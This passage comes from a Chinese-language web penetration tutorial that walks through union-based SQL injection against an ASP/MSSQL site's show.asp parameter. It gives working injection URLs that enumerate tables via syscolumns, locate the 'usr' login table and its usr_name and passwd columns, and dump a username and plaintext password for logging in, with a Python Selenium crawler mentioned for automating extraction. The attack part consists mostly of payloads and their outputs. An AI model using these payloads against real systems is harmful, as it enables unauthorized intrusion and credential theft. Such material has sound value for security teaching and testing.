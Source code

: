 通过子查询一个升序，一个降序获取第二个值，同理第三个top 3。下面通过Python定义一个Selenium爬虫不断访问top n，获取所有的表名，代码如下

![7eb1ab8798f449488037b04c82d63ab2](https://github.com/user-attachments/assets/eaac6f82-7606-4d6f-be47-6ab62bad16f7)

注意，Python应用在Web渗透领域是很常见且有效的。分析输出的所有表名，可以发现usr为后台登录表。
- ==后台登录表：usr==

---
## **第六步，数据库获取登录表usr字段 id=object_id(‘usr’)**  
具体方法如下：
```
http://xxxxx/show.asp?code=-1’ union all  
    select 1,null,3,null,null,6,7,8,  
    (select top 1 name from syscolmns where id=object_id(‘usr’)),10 - -
```
输出结果如下所示：
- 附件1：7
- 附件2：8
- 附件3：**answer**
其中top 1 name用于输出1个字段，表usr的一个列表。
```
核心SQL语句获取不同的列名：  
    (select top 1 name from (select top 3 name from syscolumns where id=object_id(‘usr’) order by asc) a order by 1 desc)
```
输出结果如下所示：
- 附件1：7
- 附件2：8
- 附件3：**dic_roll**
同理，也可以借助Python获取所有字段，如果字段少，手工即可测试出来，count(*)返回字段个数。最后发现：
- ==用户名字段为usr_name，密码为passwd==

---
## **第七步，获取数据库返回用户名和密码**  
具体方法如下：
```
http://xxxxx/show.asp?code=-1’ union all  
    select 1,null,3,null,null,6,7,8,(select top 1 usr_name from usr),10 - -
```
输出结果如下所示：
- 附件1：7
- 附件2：8
- 附件3：**2016001**
输出用户名2016001，再搜索密码。
```
http://xxxxx/show.asp?code=-1’ union all  
    select 1,null,3,null,null,6,7,8,  
    (select passwd from usr where usr_name=‘2016001’),10 - -
```
输出结果如下所示：
- 附件1：7
- 附件2：8
- 附件3：**123456**
**输出用户名2016001，密码123456，此时即可登录，通过Python可以获取所有值**

---